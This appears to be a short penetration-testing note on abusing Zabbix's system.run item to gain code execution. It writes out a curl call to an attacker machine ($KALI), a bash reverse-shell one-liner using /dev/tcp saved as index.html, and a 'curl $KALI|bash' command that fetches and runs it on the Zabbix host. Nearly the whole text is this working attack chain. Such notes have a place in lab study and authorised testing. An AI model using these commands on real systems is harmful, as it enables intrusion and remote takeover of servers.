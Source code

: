 https://blog.zabbix.com/zabbix-remote-commands/7500/

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Configuration > Hosts > $Hostname > Configuration > Items > Create Item
```
system.run[curl $KALI,nowait]
```

Click `Test`, then `Get value`, check listener.

![[Pasted image 20220925113513.png]]

```bash - kali
echo '/bin/bash -c "bash -i >& /dev/tcp/$KALI/443 0>&1"' > index.html
```

```
system.run[curl $KALI|bash,nowait]
```


